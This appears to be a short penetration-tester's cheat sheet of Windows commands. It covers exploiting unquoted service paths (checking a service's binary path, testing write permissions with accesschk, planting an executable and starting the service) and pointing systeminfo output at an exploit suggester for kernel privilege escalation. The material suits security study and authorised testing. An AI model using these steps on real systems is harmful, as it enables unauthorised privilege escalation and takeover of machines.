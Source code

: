# Windows Snippets

Run `dir` recursively:
```
gci -recurse .
```

Unquoted Service Paths:
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
